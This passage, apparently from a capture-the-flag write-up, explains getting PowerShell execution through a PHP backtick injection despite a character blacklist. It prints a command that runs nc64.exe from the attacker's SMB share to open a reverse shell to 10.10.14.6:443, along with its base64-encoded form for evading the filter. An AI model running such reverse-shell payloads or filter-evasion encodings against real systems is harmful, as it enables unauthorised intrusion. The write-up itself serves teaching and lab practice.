 ```
<!--===============================================================================================-->                                                                                                                                
        <script src="vendor/daterangepicker/moment.min.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                  
        <script src="vendor/daterangepicker/daterangepicker.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                             
<!--===============================================================================================-->                                                                                                                                
        <script src="vendor/countdowntime/countdowntime.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                                                                                                                 
<!--===============================================================================================-->                                                                                                                                
        <script src="js/main.js" type="5614ef5d2b005421f12fe64f-text/javascript"></script>                         

        <?php } ?>                                       
</html> 

```

#### Shell

I can’t use and of: `-$[(_.;&"\`. I’ve already got PowerShell execution working through this:

```

<?php echo `powershell [command]` ?>     

```

I need a command I can put in that doesn’t use any of the banned characters.

Some of the things I tried that failed:
- Creating a UNC path to run off my SMB server using IPv6. It doesn’t work, because [IPv6s in UNC paths](https://en.wikipedia.org/wiki/IPv6_address#Literal_IPv6_addresses_in_UNC_path_names) have the `:` replaced by `-`.
- Finding and trying to poison `\programdata\data\sniper\users.ibd`, which is a backup of the users database. It has not only my username by the email address, which is less filtered. I had a lot of trouble getting this file to include, though I know of at least one person who was able to make this work.

This would all be easier if I could run a base64-encoded command. Typically I think of doing that by running `powershell -enc [base64-string]`. But it also works with `/enc`.

I’ll make the command, making sure to convert to 16-bit unicode characters with `iconv`:

```

root@kali# echo 'cmd /c "\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443"' | iconv -f ascii -t utf-16le | base64 -w0
YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==

```
